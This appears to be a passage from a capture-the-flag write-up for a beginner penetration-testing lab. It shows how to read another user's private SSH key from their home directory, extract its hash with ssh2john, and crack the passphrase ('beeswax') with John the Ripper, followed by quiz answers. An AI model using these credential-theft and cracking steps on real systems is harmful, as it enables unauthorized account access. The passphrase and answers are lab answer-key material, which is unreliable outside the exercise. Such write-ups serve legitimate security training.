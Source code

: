login as jan succes

do 
```bash
cd ..
```
and 
```bash
ls
```
You will find theres 2 user which is

```
jan kay
```
cd to kay and do 'ls -a' you will find 
```bash
.	       .bash_logout  .lesshst  .profile			  .viminfo
..	       .bashrc	     .nano     .ssh
.bash_history  .cache	     pass.bak  .sudo_as_admin_successful
```
cd to ssh and you will find
```bash
authorized_keys  id_rsa  id_rsa.pub
```

cat id_rsa will give you text as in id_rsa.txt

Run ssh2john tool to get the hash of the keys
```bash
python ssh2john.py id_rsa.txt > id_rsa.hash
```

Run John The Ripper to crack the passphrase for the account Kay.
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

Found the password for Kay : 'beeswax'

Use
```bash
sudo john --show id_rsa.hash 
```
if somehow you not sure


# 7. What service do you use to access the server(answer in abbreviation in all caps)?

SSH

# 8. Enumerate the machine to find any vectors for privilege escalation 
No clue what this mean, so im following [this](https://medium.com/@DanishZia/tryhackme-basic-pentesting-write-up-d6e3d551c0f7) write up for this part and for number 6 and the rest
